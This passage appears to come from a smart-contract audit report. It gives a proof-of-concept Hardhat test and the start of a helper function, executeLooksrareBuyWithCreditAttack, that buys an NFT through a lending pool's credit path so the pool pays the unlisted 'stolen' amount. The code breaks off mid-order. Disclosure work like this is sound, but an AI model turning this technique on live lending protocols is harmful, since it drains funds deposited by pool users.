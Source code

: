 ```
    dai.address,
      poolVictimNumber
  );
  const totalAmount = payNowAmount.add(poolVictimAmount);
  const nftId = 0;
  // mint DAI to offer
  // We don't need to give taker any money, he is not charged
  // Instead, give the pool money
  await mintAndValidate(dai, payNowNumber, taker);
  await mintAndValidate(dai, poolVictimNumber, pool);
  // middleman supplies DAI to pool to be borrowed by offer later
  //await supplyAndValidate(dai, poolVictimNumber, middleman, true);
  // maker mint mayc
  await mintAndValidate(doodles, "1", maker);
  // approve
  await waitForTx(
    await dai.connect(taker.signer).approve(pool.address, payNowAmount)
  );
  console.log("maker balance before", await dai.balanceOf(maker.address))
  console.log("taker balance before", await dai.balanceOf(taker.address))
  console.log("pool balance before", await dai.balanceOf(pool.address))
  await executeLooksrareBuyWithCreditAttack(
    doodles,
    dai,
    payNowAmount,
    totalAmount,
    0,
    nftId,
    maker,
    taker
  );
```

In marketplace-helper.ts, please copy in the following attack code:
```
export async function executeLooksrareBuyWithCreditAttack(
    tokenToBuy: MintableERC721 | NToken,
    tokenToPayWith: MintableERC20,
    makerAmount: BigNumber,
    takerAmount: BigNumber,
    creditAmount : BigNumberish,
    nftId: number,
    maker: SignerWithAddress,
    taker: SignerWithAddress
) {
  const signer = DRE.ethers.provider.getSigner(maker.address);
  const chainId = await maker.signer.getChainId();
  const nonce = await maker.signer.getTransactionCount();

  // approve
  await waitForTx(
      await tokenToBuy
          .connect(maker.signer)
          .approve((await getTransferManagerERC721()).address, nftId)
  );

  const now = Math.floor(Date.now() / 1000);
  const paramsValue = [];
  const makerOrder: MakerOrder = {
    isOrderAsk: true,
    signer: maker.address,
    collection: tokenToBuy.address,
    // Listed Maker price not includes payLater amount which is stolen
    price: makerAmount,
```